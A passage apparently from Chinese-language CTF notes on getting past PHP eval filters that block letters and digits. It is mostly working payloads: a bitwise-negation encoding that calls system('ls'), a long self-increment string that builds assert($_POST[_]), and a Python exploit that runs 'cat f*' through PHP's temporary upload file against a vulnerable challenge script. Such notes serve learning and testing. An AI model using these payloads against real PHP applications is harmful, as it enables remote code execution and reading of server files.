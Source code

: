 ```sh
# 运行结果
[+]your function: system
[+]your command: ls
[*] (~%8C%86%8C%8B%9A%92)(~%93%8C);
```

### 自增绕过

```php
//测试发现 7.0.12 以上版本不可使用
//使用时需要 url 编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后 post 传入   _=phpinfo();
```

### 上传临时文件绕过

题目代码

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){ //长度不能超过 35
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ //不能包含下划线和$
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

exp

```python
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)
```

